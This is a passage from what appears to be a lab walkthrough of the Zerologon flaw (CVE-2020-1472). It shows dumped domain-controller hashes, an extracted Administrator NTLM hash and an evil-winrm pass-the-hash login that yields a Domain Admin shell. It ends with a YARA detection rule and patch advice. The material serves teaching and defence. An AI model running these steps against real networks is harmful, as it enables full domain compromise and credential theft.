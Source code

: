 ```bash
DC01$:aes128-cts-hmac-sha1-96:4c146fe76ec6150267564d9bd69769d8
DC01$:des-cbc-md5:cd161923ab9ec11c
[*] Cleaning up...
```
From the results, we have the Administrator's account NTLM hash: `3f3ef89114fb063e3d7fc23c20f65568`.

#### Login to victim as Administrator
Using the `evil-winrm` utility, login to the target with the captured Administrator's NTLM hash.

```
$ evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.208.101

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> whoami
hololive\administrator
```

The victim was successfully exploited and logged in as Domain Administrator.

### Detection
The below `yara` rule can help in detecting and alerting if there were any Zerologon exploits executed.

```bash
rule Cynet_Zerologon_ZeroClientCredential
{
   meta:
      ref = "CVE-2020-1472"
      description = "Detection of Zerologon Exploit using zeroed client credential"
      author = "Cynet"
      date = "07/10/2020"
      reference = "https://www.cynet.com/zerologon"
      reference_1 = "https://www.secura.com/blog/zero-logon"

    strings:
        $zero_credential = { 00 24 00 00 00 06 00 (0? | 10) 00 00 00 00 00 00 00 (0? | 10) 00 00 00 [1-29] 00 00 00 00 00 00 00 00 00 00 00 (ff | ef) ff (2f | 2e) 21 }

    condition:
        $zero_credential
}
```

#### Patch
Microsoft has released the patch for the vulnerability and [advised](https://support.microsoft.com/en-us/topic/how-to-manage-the-changes-in-netlogon-secure-channel-connections-associated-with-cve-2020-1472-f7e8cc17-0309-1d6a-304e-5ba73cd1a11e) to update the Windows Servers.
